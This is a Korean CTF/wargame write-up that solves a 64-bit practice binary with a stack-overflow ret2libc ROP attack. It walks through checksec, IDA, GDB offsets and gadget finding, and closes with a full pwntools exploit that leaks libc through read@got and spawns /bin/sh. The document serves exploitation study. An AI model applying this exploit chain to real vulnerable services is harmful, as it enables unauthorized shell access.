 # first 문제 풀이

- 라젠카 ROP(x64)를 참고하여 실습을 진행할 예정이다.



## Proof of concept

### checksec

![image](https://user-images.githubusercontent.com/59410565/119918504-924c9900-bfa3-11eb-9374-0d51887d1700.png)

64bit 파일이고, Partial RELRO와 NX가 적용되어 있다. 따라서 함수 호출 시 해당 함수의 주소의 알아오고, 이를 이용하여 NX bit를 우회하는 ROP 공격을 할 수 있을 것 같다.



### IDA

> main() 함수

![image](https://user-images.githubusercontent.com/59410565/119919504-8e217b00-bfa5-11eb-8615-ebe43920b4f9.png)

"This is my FIRST PWNABLE!!"을 출력하고 load(0xA(=10))을 반환한다.

> load() 함수

![image](https://user-images.githubusercontent.com/59410565/119919215-ead06600-bfa4-11eb-9269-2f3118c60d1f.png)

v2에 인자로 전달받은 a1(10)을 대입하고, "How Many Bullets do you have?"를 출력한다. v3을 입력받고 만약 a1이 v3보다  크다면 v2의 값을 v3으로 바꿔준다. 그리고 v2의 값과 함께 "You have %dbullets\n"을 출력한다.

> bang() 함수

![image](https://user-images.githubusercontent.com/59410565/119919241-f9b71880-bfa4-11eb-938b-1b4dab1d54d3.png)

"Who is your Target?"을 출력하고 read() 함수를 사용해 0x64(100)만큼 입력을 받는다. 이때 buf의 크기보다 더 많은 값을 입력받아 overflow가 발생한다.



### GDB

![image](https://user-images.githubusercontent.com/59410565/119920224-ec9b2900-bfa6-11eb-8cd3-221612dfee3e.png)

**[Break Point]**

- bang+0 : bang() 함수 코드 첫 부분
- bang+35 : read() 함수 호출 전

![image](https://user-images.githubusercontent.com/59410565/119922976-d80d5f80-bfab-11eb-85db-77e3679bdecc.png)

![image](https://user-images.githubusercontent.com/59410565/119923010-e5c2e500-bfab-11eb-858f-75d0e5648814.png)

Return address(0x7ffe3acb7838) - buf 변수의 시작 주소(0x7ffe3acb7820) = 24. 즉, 24개 이상의 문자를 입력함으로써 RET을 변조할 수 있다.



### plt, got 주소 찾기 - read, scanf

> pwntools를 사용하여 주소를 출력하기

```python
from pwn import *

e = ELF("./first")
print("read@plt : " + str(hex(e.plt["read"])))
print("read@got : " + str(hex(e.got["read"])))
print("scanf@plt : " + str(hex(e.plt["scanf"])))
print("scanf@got : " + str(hex(e.got["scanf"])))
```

![image](https://user-images.githubusercontent.com/59410565/119924153-0429e000-bfae-11eb-867d-da5810237daf.png)



### "/bin/sh" 찾기

![image](https://user-images.githubusercontent.com/59410565/119925390-52d87980-bfb0-11eb-8b4b-522a0985219e.png)

![image](https://user-images.githubusercontent.com/59410565/119925478-80bdbe00-bfb0-11eb-8e01-04d5e538bb48.png)

"/bin/sh"의 offset은 0x18ce57이다.



### 쓰기 가능한 영역 찾기

![image](https://user-images.githubusercontent.com/59410565/119924420-831f1880-bfae-11eb-8007-3bf54ff6a305.png)

해당 바이너리의 0x601000 ~ 0x602000 영역에 쓰기 권한이 부여되어 있다.

![image](https://user-images.githubusercontent.com/59410565/119924479-9d58f680-bfae-11eb-83a2-cb03b42d629e.png)

![image](https://user-images.githubusercontent.com/59410565/119924522-b5307a80-bfae-11eb-94df-db3f37bf5ff4.png)

.got.plt / .data / .bss 가 앞에서 확인한 쓰기 가능한 영역에 포함되어 있다.



### 가젯 찾기

> rp++

![image](https://user-images.githubusercontent.com/59410565/119924702-0ccee600-bfaf-11eb-8b49-9425e540b6d4.png)

> ROPgadget

![image-20210528122102639](C:\Users\hyera\AppData\Roaming\Typora\typora-user-images\image-20210528122102639.png)



### system() 주소 찾기

![image](https://user-images.githubusercontent.com/59410565/119926112-b44d1800-bfb1-11eb-89ab-f2025c83543f.png)

> elf.symbols[] : 바이너리 함수 내에서 정의된 함수의 주소
>
> a.plt(b.got) >> b의 주소를 a의 plt에 



### Exploit code

```python
from pwn import *
from struct import *
 
#context.log_level = 'debug'
r = process('./first')
e = ELF("./first")
  
libcbase_read_offset = e.libc.symbols['read']
print(hex(libcbase_read_offset))
libcbase_system_offset = 0x453a0 #elf.libc.symbols['system']

binsh_offset = 0x18ce57 

pop_rdi_ret = 0x400713

puts_plt = e.plt['puts']
read_got = e.got['read']
bang = e.symbols['bang']

payload = "A"*24
payload += p64(pop_rdi_ret)
payload += p64(read_got)
payload += p64(puts_plt)
payload += p64(bang)

r.sendlineafter("have?\n",p64(1))
r.sendafter("Target?\n", payload)

read_addr = u64(r.recvuntil("\x7f")[-6:].ljust(8, '\x00'))
libcbase = read_addr - libcbase_read_offset
print(hex(read_addr))

payload = "A"*24
payload += p64(pop_rdi_ret)
payload += p64(libcbase + binsh_offset)
payload += p64(libcbase + libcbase_system_offset)

r.send(payload)
r.interactive()
```

